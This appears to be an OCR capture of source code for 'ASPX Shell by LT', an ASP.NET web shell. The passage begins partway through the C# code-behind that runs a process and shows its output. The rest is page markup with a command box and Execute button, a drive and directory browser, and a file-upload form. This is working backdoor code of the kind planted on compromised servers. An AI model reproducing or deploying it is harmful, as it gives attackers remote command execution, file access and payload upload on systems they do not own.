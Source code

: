 ```http
		p.StartInfo.WorkingDirectory = dir;
		p.Start();

		lblCmdOut.Text = p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd();
		txtCmdIn.Text = "";
	}	
%>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml" >
<head>
	<title>ASPX Shell</title>
	<style type="text/css">
		* { font-family: Arial; font-size: 12px; }
		body { margin: 0px; }
		pre { font-family: Courier New; background-color: #CCCCCC; }
		h1 { font-size: 16px; background-color: #00AA00; color: #FFFFFF; padding: 5px; }
		h2 { font-size: 14px; background-color: #006600; color: #FFFFFF; padding: 2px; }
		th { text-align: left; background-color: #99CC99; }
		td { background-color: #CCFFCC; }
		pre { margin: 2px; }
	</style>
</head>
<body>
	<h1>ASPX Shell by LT</h1>
    <form id="form1" runat="server">
    <table style="width: 100%; border-width: 0px; padding: 5px;">
		<tr>
			<td style="width: 50%; vertical-align: top;">
				<h2>Shell</h2>				
				<asp:TextBox runat="server" ID="txtCmdIn" Width="300" />
				<asp:Button runat="server" ID="cmdExec" Text="Execute" />
				<pre><asp:Literal runat="server" ID="lblCmdOut" Mode="Encode" /></pre>
			</td>
			<td style="width: 50%; vertical-align: top;">
				<h2>File Browser</h2>
				<p>
					Drives:<br />
					<asp:Literal runat="server" ID="lblDrives" Mode="PassThrough" />
				</p>
				<p>
					Working directory:<br />
					<b><asp:Literal runat="server" ID="lblPath" Mode="passThrough" /></b>
				</p>
				<table style="width: 100%">
					<tr>
						<th>Name</th>
						<th>Size KB</th>
						<th style="width: 50px">Actions</th>
					</tr>
					<asp:Literal runat="server" ID="lblDirOut" Mode="PassThrough" />
				</table>
				<p>Upload to this directory:<br />
				<asp:FileUpload runat="server" ID="flUp" />
				<asp:Button runat="server" ID="cmdUpload" Text="Upload" />
				</p>
			</td>
		</tr>
    </table>

    </form>
```